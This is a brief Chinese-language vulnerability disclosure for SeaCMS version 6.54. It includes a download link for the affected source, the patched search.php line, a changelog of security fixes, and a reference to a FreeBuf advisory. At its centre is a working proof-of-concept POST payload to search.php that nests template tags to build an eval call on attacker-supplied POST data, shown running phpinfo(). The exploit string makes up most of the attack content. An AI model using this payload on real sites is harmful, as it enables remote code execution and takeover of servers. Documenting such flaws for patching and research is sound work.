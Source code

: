 ## Affected Version 6.54

链接:https://pan.baidu.com/s/16rV0_xnoN_8-v4WVpCq6YA  

密码:qlwh



6.54 和6.53版本的不同之处是在：

`search.php`的65行的`order`参数做了限制。

`$order = ($order == "commend" || $order == "time" || $order == "hit") ? $order : "";`



```
更新日期：2017年8月7日 v6.54
修复：紧急修复2处高危安全漏洞

更新日期：2017年8月6日 v6.53
新增：微信公众平台模块
优化：采集逻辑
修复：部分文字描述错误
更新日期：2017年2月18日 v6.46
修复：两处安全问题

更新日期：2017年2月6日 v6.45
修复：一处安全问题
```

​	

## POC



    http://192.168.0.6/seacms654/search.php
    POST：
    searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo();



## References

[漏洞预警 | 海洋CMS（SEACMS）0day漏洞预警](http://www.freebuf.com/vuls/150042.html)



